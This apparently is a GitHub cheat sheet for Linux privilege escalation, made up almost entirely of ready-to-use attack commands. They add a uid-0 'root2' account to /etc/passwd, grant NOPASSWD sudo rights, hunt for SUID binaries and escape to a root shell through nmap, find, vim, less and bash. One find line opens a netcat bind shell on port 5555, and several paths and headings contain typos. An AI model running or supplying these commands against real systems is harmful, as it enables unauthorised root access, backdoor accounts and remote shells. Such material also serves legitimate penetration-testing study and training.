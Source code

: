 # Linux Privilege Escalation


#### Check Sudo Access  
`sudo -l`

#### Check for writable "system" files or paths?
```
/etc/passwd
/etc/shadow
/etc/crontab
```
## Modifying /etc/password | /etc/shadow
#### Creating password hashes for /etc/passwd  or /etc/shadow
 
  ```
  openssl passwd -6 -salt xyz  yourpass
  -1 MD5
  -5 SHA256
  -6 SHA512
  ```  
#### Sample root2:testing user for /etc/passwd
  ```
  root2:KWi2XW05LmkMg:0:0:root:/root:/bin/bash
  ```
#### Adding user to suoders file
```
user     ALL=(ALL:ALL) NOPASSWD:ALL
``` 
## SUID Based Privilge Escalation  
#### Locating SUIDS
`find . -perm /4000 2>/dev/null`  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

#### Exploiting SUIDs

nmap 2.02 - 5.21  
`nmap -V #version check`  

```
nmap --interactive  
nmap> !sh
```

find  
`find <file> -exec <CMD> \;`  
Escalation to root shell  
`find . -exec /bin/sh -p \; -quit`  
`find somefile -exec netcat -lvp 5555 -e /bin/sh \;`  
`find somefile -exec echo "lowprivuser ALL=(ALL) NOPASSWD:ALL" > /etc/sodoers \;`  
Vim  
```
vim /etc/shadow  
vim  
# Press ESC key  
:set shell=/bin/sh  
:shell
```

bash  
`bash -p`

less  
```
less /etc/passwd  
!/bin/sh
```
**Command reference for privilege escalation using SUIDS and SUDO**  
https://gtfobins.github.io/



## Processes running as root
```
ps aux | grep root
```
[pspy](https://github.com/DominicBreuker/pspy) may also be used to watch system processes interaction in realtime (including command lines).

## Kernel Exploits  
https://github.com/lucyoa/kernel-exploits
